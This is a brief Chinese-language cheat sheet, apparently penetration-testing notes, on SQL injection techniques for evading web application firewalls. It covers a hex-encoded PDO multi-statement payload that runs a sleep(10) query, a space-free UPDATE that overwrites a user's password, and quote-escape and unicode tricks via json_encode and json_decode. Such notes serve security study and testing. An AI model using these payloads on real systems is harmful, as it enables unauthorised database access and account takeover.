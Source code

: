 ![](img/pdo.png)

## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

## 不用空格和`/*`执行语句

```SQL
update(user)set`password`='1'where`id`=1;
```

## json_encode

json_encode的时候会转义`\`，从而导致单引号逃逸，产生sql注入

## json_decode

json_decode的时候会进行unicode解码，可以通过传入`\u003d`之类的unicode字符绕过waf